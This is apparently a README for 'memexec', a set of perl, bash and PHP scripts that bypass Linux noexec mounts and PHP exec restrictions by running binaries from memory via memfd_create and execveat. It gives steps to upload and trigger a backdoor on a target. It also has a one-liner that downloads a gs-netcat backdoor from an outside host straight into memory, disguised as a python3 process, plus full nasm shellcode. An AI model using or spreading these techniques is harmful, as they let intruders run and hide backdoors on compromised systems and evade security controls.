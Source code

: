 ## Circumvent the `noexec` mount flag on Linux and execute abritrary binaries

This if useful on a Linux system when all writeable locations are mounted with `-o noexec` (including /dev/shm) or to escape PHP's 'exec' restrictions.

Use _one_ of the 3 scripts (perl, bash, php):

- The binary does not need to have +x
- The binary can reside on a noexec-partition
- Mostly the binary can be piped directly from the Internet into the memory (and executed there)
- Works as non-root user
- The PHP variant also circumvents PHP's "exec" restrictions.
- It injects shellcode into the running process and calls [memfd_create(2)](https://man7.org/linux/man-pages/man2/memfd_create.2.html) and [execveat(2)](https://man7.org/linux/man-pages/man2/execveat.2.html) to load a binary from a noexec-partition (or directly from the Internet).
- BASH and PHP do not support SYSCALLS. We advanced an old trick.

Read the [circumventing the noexec Article](https://iq.thc.org/bypassing-noexec-and-executing-arbitrary-binaries) for more....

`TIME_STYLE` and `-lah` are used as an example to pass through environment parameters and command line options. 

### PERL example:
```sh
source memexec-perl.sh
cat /bin/ls | TIME_STYLE=+%s memexec -lah
```
This was golfed by the fine people on Mastodon ([@acut3hack](https://@acut3hack@infosec.exchange), [@addision](https://@addison@nothing-ever.works), [@ilv](https://@ilv@infosec.exchange))

### BASH example (by [@messede-degod](https://github.com/messede-degod)):
```sh
source memexec-bash.sh
cat /bin/ls | TIME_STYLE=+%s memexec -- -lah
```

### The PHP variant also circumvents ["shell_exec" restrictions](https://www.cyberciti.biz/faq/linux-unix-apache-lighttpd-phpini-disable-functions/).

1. Upload `memexec.php` and `egg` (your backdoor) onto the target
2. Call `curl -SsfL https://target/memexec.php` to execute `egg` and bypassing noexec restrictions

(This is my way of saying "hey. how are to?" to my old [team-teso](https://en.wikipedia.org/wiki/TESO_(Austrian_hacker_group)) colleague and long time PHP developer [@i0nic](https://x.com/i0n1c))

---

The educated reader understands that this is mostly used to pipe a backdoor from the Internet directly into memory, even when execution is prohobited by `noexec` or there is no writeable directory (hides as process name `/usr/bin/python3`):
```shell
curl -SsfL https://gsocket.io/bin/gs-netcat_mini-linux-x86_64 | GS_ARGS="-ilD -s ChangeMe" perl '-e$^F=255;for(319,279,385,314){($f=syscall$_,$",0)>0&&last};open($o,">&=".$f);print$o(<STDIN>);exec{"/proc/$$/fd/$f"}X,@ARGV' -- "$@"
```
---

For the addicts, here is the nasm of the shellcode (memfd_create, copy loop & execveat):
```nasm
; nasm -felf64 memexec.nasm && ld memexec.o &&  ./a.out
; cat /bin/ls | TIME_STYLE=+%s ./a.out -- -lah

global _start
section .text

_start:
    push    0x00676765  ; "egg"
    mov     rax, 0x13f
    mov     rdi, rsp    ; arg 1: name [egg]
    xor     rsi, rsi    ; arg 2: 0 = no MFD_CLOEXEC
    syscall
    mov     r8, rax

    mov     rax, 2
    mov     rdi, rsp    ; arg 1: name [egg]
    xor     rsi, rsi    ; arg 2: 0 = O_RDONLY
    syscall
    mov     r9, rax

loop:
    sub     rsp, 0x400
    xor     rax, rax    ; arg 0: read_NR
    mov     rdi, r9     ; arg 1: FD [egg]
    mov     rsi, rsp    ; arg 2: buffer
    mov     edx, 0x400  ; arg 3: length
    syscall

    cmp     rax, 0x00
    jle     done        ; EOF

    mov     rdx, rax    ; arg 3: length (from read()) 
    mov     eax, 0x01   ; arg 0: write_NR
    mov     rdi, r8     ; arg 1: FD [memfd]
    syscall
    jmp     loop
done:

    mov     rax, 322    ; arg 0: execveat_NR
    mov     rdi, r8     ; arg 1: memfd
    push    0x00        ; an empty string
    mov     rsi, rsp    ; arg 2: path (empty string)
    mov     rdx, rsp    ; arg 3: ARGV points to empty string
    xor     rcx, rcx    ; arg 4: ENV
    mov     r8, 0x1000  ; arg 5: AT_EMPTY_PATH
    xor     r9, r9      ; arg 6: must be clean
    xor     r10, r10    ; arg 7: must be clean
    syscall

    mov     rax, 60
    xor     rdi, rdi
    syscall
```

